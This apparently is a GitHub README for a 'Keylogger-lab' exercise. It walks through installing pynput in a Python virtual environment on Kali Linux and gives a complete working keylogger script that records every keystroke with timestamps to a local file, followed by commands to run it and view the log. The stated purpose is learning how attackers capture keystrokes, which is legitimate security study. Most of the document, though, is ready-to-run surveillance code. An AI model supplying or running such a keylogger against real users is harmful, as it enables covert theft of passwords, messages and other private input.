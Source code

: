 # Keylogger-lab
Build a keylogger in Python to understand how attackers capture keystrokes.  

## Tools
 - Kali Linux
 - Pynput
 - Python

## Methodology
 ### 1. Install Python and Pynput  
  ```bash
# Install venv 
sudo apt install python3-venv

# Create a virtual environment
python3 -m venv ~/keylogger_demo/venv

# Activate it
source ~/keylogger_demo/venv/bin/activate

# Install pynput in the venv
pip install pynput

```
 ### 2 . Create a Keylogger Script
 - create a python file and paste the code.  
 
 ```bash
from pynput import keyboard
import logging

# Set up logging
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

# Start listening
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

 ### 3. Execute the keylogger
 ```bash
 python3 keylogger.py
 ```

 ### 4. View Logs
  ```bash
cat key_log.txt
  ```
